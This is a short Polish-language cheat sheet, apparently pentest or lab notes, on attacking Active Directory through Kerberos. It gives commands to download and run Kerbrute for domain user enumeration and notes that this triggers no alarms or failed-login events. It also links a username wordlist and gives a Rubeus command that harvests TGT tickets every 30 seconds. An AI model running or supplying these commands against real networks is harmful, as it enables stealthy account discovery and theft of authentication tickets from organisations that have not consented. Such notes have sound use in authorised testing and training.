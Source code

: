 # 1) Kerbrute (brute force to jedna ramka UDP to KDC nie generuje eventu zlego logowania)

### Instalacja
      ▪ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
      ▪ chmod +x kerbrute_linux_amd64
### Enumeracja uzytkownikow (wyslanie jednej ramki UDP do KDC)
      ▪ Nie powoduje to alarmow ani zadnych czerwonych logow
      ▪ ./kerbrute_linux_amd64 userenum --dc <domena> -d <adres domeny> <lista>
      ▪ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

# 2) Przydatne slowniki
      • Slownik
            ▪ https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt

# 3) Proste zabiegi
      • Rubeus (zbiera TGT wysylane do KDC co 30 sekund)
            ▪ .\Rubeus.exe harvest /interval:30 



      
      
      
      
      
      
      
      
      
      
      
